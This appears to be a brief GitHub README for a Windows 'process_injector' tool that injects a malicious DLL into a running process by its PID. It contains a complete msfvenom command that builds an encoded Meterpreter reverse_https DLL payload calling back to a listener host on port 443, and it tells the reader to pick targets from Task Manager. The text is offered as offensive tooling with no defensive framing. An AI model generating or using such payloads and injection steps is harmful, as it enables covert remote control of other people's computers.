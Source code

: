 # process_injector

This program is made completely using winAPI to inject malicios dll file into a process using its PID (Process ID).

You can use Metasploit to generate a malicious dll using msfvenom-

msfvenom -p windows/meterpreter/reverse_https lhost=192.168.1.8 lport=443 -e x86/shikata_ga_nai -f dll --platform win -a x86 > test.dll

You can find PID of a program using Task Manager.


